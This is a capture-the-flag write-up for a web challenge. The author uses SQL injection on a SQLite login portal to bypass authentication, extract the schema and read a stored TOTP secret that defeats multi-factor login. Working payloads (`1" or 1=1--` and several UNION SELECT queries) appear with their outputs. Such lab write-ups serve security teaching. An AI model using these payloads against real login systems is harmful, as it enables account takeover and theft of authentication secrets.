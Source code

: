 # [Web] Touch Of The Paranoid

## Background

The description given for this challenge was:
```
We're happy to announce that we now support multi-factor authentication. Our login portal is now bulletproof and unhackable! Our first user mentioned something about Google Authenticator...

PS: No bruteforce is needed, you will be throttled if you try. 
```

<br/>

## Login Portal

<p align="center">
    <img src="images/TouchOfTheParanoid01.png" style="width:50%;" /><br/>
</p>

Upon visiting the provided link we are first greeted with a login portal. First instincts is to test the fields for any SQL injection vulnerability by entering quotes `"` in both of the fields.

And bingo! An error was thrown back to the DOM indicating that the portal uses SQLite3 and the fields are indeed vulnerable.

```
sqlite3.OperationalError: unrecognized token: "6b86b273ff34fce19d6b804eff5a3f5747ada4eaa22f1d49c01e52ddb7875b4b"
```

<br/>

Next, I tried entering `1" or 1=1--` into both fields and it seems that I have succesfully infiltrated into the admin account. However, we are still required to enter a 6 digit OTP in order to proceed.

<p align="center">
    <img src="images/TouchOfTheParanoid02.png" style="width:50%;" /><br/>
</p>

<br>

Seems like further digging of the database is required to gain access into the portal. A quick Google search for `"sqlite3 sql injection"` can get us some useful queries required for sniffing out the data. I first start with sniffing out the table name:

`
1" UNION SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_sequence' --
`

Which resulted in:
```
Hello users! Please enter the 6 digit code from your authentication app
```

<br>

Looks like our table name is `users`. Next we try to get the create table statement for table `users` which will show us all the columns.

`
1" UNION SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users' --
`

Which resulted in:
```
Hello CREATE TABLE `users` (`username` TEXT, `password` TEXT, `secret` TEXT, `id` INTEGER PRIMARY KEY AUTOINCREMENT)! Please enter the 6 digit code from your authentication app
```

<br>

Next we will try to extract the secret field from the users table:

`
1" UNION SELECT secret FROM users --
`

Which resulted in:
```
Hello 6C7GGJVTU4NSELOZ! Please enter the 6 digit code from your authentication app
```

<br>

Nice, we have now gotten hold of our OTP secret key `6C7GGJVTU4NSELOZ`. We can now key this key in Google Authenticator or any other MFA apps to generate our OTP.

Now, we have to login back to admin with `1" or 1=1--` and key in the newly generated OTP into the field and viola! We got our flag!

<p align="center">
    <img src="images/TouchOfTheParanoid03.png" style="width:50%;" /><br/>
</p>

```
CTFSG{d0nt_b3_afrA1d_oF_n33dLes}
```
